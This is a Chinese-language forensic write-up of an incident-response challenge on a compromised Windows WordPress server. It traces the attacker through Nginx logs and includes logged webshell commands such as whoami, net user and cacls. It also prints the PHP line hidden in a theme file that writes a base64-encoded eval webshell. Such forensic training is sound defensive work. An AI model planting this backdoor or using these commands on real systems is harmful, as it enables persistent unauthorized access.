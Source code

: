 # 第四章 windows 实战 - wordpress

## 1

> 请提交攻击者攻击成功的第一时间，格式：`flag{YY:MM:DD hh:mm:ss}`

rdp 连接到服务器

![img](img/image_20241010-221056.png)

定位到 Nginx 的日志目录 `C:\phpstudy_pro\Extensions\Nginx1.15.11\logs`

对 `access.log` 日志文件进行分析，可以定位到以下记录

```log
192.168.141.55 - - [29/Apr/2023:22:48:23 +0800] "GET /manage/options-theme.php HTTP/1.1" 200 12345 "http://192.168.141.188/manage/theme-editor.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:48:23 +0800] "GET /manage/theme-editor.php HTTP/1.1" 200 16037 "http://192.168.141.188/manage/options-theme.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:07 +0800] "POST /index.php/action/themes-edit?_=961610959bca6fdfe6766df40ec1e482 HTTP/1.1" 302 5 "http://192.168.141.188/manage/theme-editor.php?theme=default&file=post.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:07 +0800] "GET /manage/theme-editor.php?theme=default&file=post.php HTTP/1.1" 200 16012 "http://192.168.141.188/manage/theme-editor.php?theme=default&file=post.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:10 +0800] "GET / HTTP/1.1" 200 6680 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:12 +0800] "GET /index.php/archives/1/ HTTP/1.1" 200 13456 "http://192.168.141.188/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:13 +0800] "GET /index.php/category/default/ HTTP/1.1" 200 7004 "http://192.168.141.188/index.php/archives/1/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:21 +0800] "GET /.x.php?cmd=system(%27whoami%27); HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:02:25 +0800] "GET /.x.php?x=system(%27whoami%27); HTTP/1.1" 200 34 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:05:39 +0800] "POST /.x.php HTTP/1.1" 200 152 "-" "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36"
192.168.141.55 - - [29/Apr/2023:23:05:49 +0800] "POST /.x.php HTTP/1.1" 200 157 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:21.0) Gecko/20100101 Firefox/21.0"
192.168.141.55 - - [29/Apr/2023:23:05:49 +0800] "POST /.x.php HTTP/1.1" 200 438 "-" "Opera/9.80 (Windows NT 6.1; U; zh-cn) Presto/2.7.62 Version/11.01"
192.168.141.55 - - [29/Apr/2023:23:05:51 +0800] "POST /.x.php HTTP/1.1" 200 443 "-" "Mozilla/4.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/5.0)"
192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /.x.php?cmd=net%20user HTTP/1.1" 200 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:08:51 +0800] "GET /favicon.ico HTTP/1.1" 404 154 "http://192.168.141.188/.x.php?cmd=net%20user" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:09:00 +0800] "GET /.x.php?x=system(%27takeown%20/f%20index.php%27); HTTP/1.1" 200 112 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:23:09:52 +0800] "GET /.x.php?x=system(%27cacls%20%20install.php%20/p%20everyone:f%20/e%27); HTTP/1.1" 200 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
```

可以确认，在这部分，攻击者成功实现了文件上传，上传了 webshell 文件 `.x.php` 并执行了命令

结合文件上传常用的为 POST 方法，并结合 Wordpress 常见的，结合主题功能实现的文件上传，可以确定攻击者上传 webshell 的时间

但是答案不对，很明显，在逻辑上，基于主题功能上传文件的前提，是成功登陆后台，所以攻击者成功攻击的时间应该往前推移至攻击者成功登陆后台的日志

```log
192.168.141.55 - - [29/Apr/2023:22:44:38 +0800] "POST /index.php/action/login?_=139102b0477b064f9cf570483837d74c HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:44:38 +0800] "GET /manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F HTTP/1.1" 200 7229 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "POST /index.php/action/login?_=139102b0477b064f9cf570483837d74c HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "GET /manage/ HTTP/1.1" 302 5 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:23 +0800] "GET /manage/welcome.php HTTP/1.1" 200 10013 "http://192.168.141.188/manage/login.php?referer=http%3A%2F%2F192.168.141.188%2Fmanage%2F" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
192.168.141.55 - - [29/Apr/2023:22:45:32 +0800] "GET /manage/themes.php HTTP/1.1" 200 11080 "http://192.168.141.188/manage/welcome.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0"
```

```flag
flag{2023:04:29 22:45:23}
```

## 2

> 请提交攻击者的浏览器版本 `flag{Firgfox/2200}`

定位攻击者访问后台的记录，得到 User-agent 的信息为

```plaintext
Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
```

即可得到答案

```flag
flag{Firefox/110.0}
```

## 3

> 请提交攻击者目录扫描所使用的工具名称

根据上一题的信息，已经可以确定攻击者的 ip 地址为 `192.168.141.55`

往上定位日志，可以发现大量的 `HTTP Status 404` 的请求，可以确定为目录扫描，这些请求的 User-agent 都是 `Fuzz Faster U Fool v1.5.0`

即可确定答案

```flag
flag{Fuzz Faster U Fool}
```

## 4

> 找到攻击者写入的恶意后门文件，提交文件名（完整路径）

在第一问的排查过程中，已经定位到了攻击者上传的 webshell 文件为 `.x.php`

定位到 `Phpstudy` 的 WWW 目录，定位到相关文件

![img](img/image_20241031-223139.png)

即可确定答案

```flag
flag{C:\phpstudy_pro\WWW\.x.php}
```

## 5

> 找到攻击者隐藏在正常 web 应用代码中的恶意代码，提交该文件名（完整路径）

根据文件修改时间，配合常见的关键词和发现的 webshell，定位到 `C:\phpstudy_pro\WWW\usr\themes\default\post.php` 文件

```php
<?php @file_put_contents('.x.php',base64_decode('PD9waHAgQGV2YWwoJF9SRVFVRVNUWyd4J10pOyA/Pg=='));?>
```

很明显，写了一个 webshell 维持

```flag
flag{C:\phpstudy_pro\WWW\usr\themes\default\post.php}
```

## 6

> 请指出可疑进程采用的自动启动的方式，启动的脚本的名字 `flag{1.exe}`

结合题目说到的自动启动的方式，排查 `shell:Startup` 目录，服务等能够实现自启动的方式，并不能找到

在常见的目录进行排查，定位到

![img](img/image_20241051-225106.png)

将样本提取出来进行分析

![img](img/image_20241052-225229.png)

结合题目要求的，确定启动的 **Script** 的名字，即可确定答案

```flag
flag{x.bat}
```
